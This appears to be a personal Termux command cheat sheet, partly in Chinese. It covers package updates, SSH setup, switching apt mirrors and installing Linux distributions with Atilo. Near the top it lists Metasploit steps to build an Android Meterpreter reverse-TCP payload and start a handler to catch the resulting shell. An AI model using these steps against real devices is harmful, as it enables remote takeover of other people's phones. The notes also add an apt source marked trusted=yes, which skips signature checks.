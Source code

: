 # termux
---

apt update && apt upgrade

pkg install unstable-repo

pkg install metasploit

msfvenom -p android/meterpreter/reverse_tcp LHOST=

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 

set LPORT

expolit

pkg install vim

passwd

pgk upgrade

pkg install openssh 8022

sshd

pkill ssh

apt install tsu

tsu

echo "sshd" >> ~/.bashrc auto-ssh

termux-change-repo 

手动修改

编辑 $PREFIX/etc/apt/sources.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/termux-packages-24 stable main

编辑 $PREFIX/etc/apt/sources.list.d/science.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/science-packages-24 science stable

编辑 $PREFIX/etc/apt/sources.list.d/game.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/game-packages-24 games stable

---

Termux 会自动将环境变量 $PREFIX 设定为 /data/data/com.termux/files/usr

export EDITOR=vi

vi  $PREFIX/etc/apt/sources.list

apt edit-sources

pkg install apt-tools

proot

---

atilo

echo "deb [trusted=yes arch=all] https://yadominjinta.github.io/files/ termux extras" >> $PREFIX/etc/apt/sources.list.d/atilo.list

apt update && apt install atilo-cn

Atilo           2.0

Usage: atilo [命令] [参数]

Atilo 是一个用来帮助你在termux上安装不同的GNU/Linux发行版的程序

命令:

images           列出可用镜像

remove           移除本地的镜像

pull             拉取远的镜像

run              运行镜像

clean            清除缓存

help             帮助

---

/data/data/com.termux/files/usr/etc/apt/sources.list 为如下内容

源 deb https://mirrors.ustc.edu.cn/termux stable main

apachectl -k start /stop

termux-setup-storage
